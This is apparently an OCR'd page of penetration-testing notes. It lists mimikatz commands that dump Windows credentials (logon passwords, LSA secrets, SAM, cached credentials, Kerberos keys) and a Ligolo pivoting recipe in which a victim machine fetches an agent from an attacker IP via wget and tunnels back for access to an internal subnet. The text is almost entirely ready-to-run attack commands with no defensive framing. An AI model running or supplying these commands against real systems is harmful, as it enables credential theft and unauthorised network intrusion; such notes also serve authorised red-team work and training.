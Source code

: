 ```c
.\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```

```c
./mimikatz.exe  "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"
```

---
---
# Pivoting Using Ligolo


> Victim Machine

```c
# 1 - File Transfer
wget http://10.10.14.9/lin-agent
chmod +x lin-agent
# ./lin-agent -connect 10.10.15.202:443 -ignore-cert

```

> Attackar Machine

```c
sudo ip tuntap add user balthazar mode tun ligolo
sudo ip link set ligolo up
./lin-proxy -selfcert -laddr 0.0.0.0:443
sudo ip route add 172.16.6.0/24 dev ligolo
```
---
---
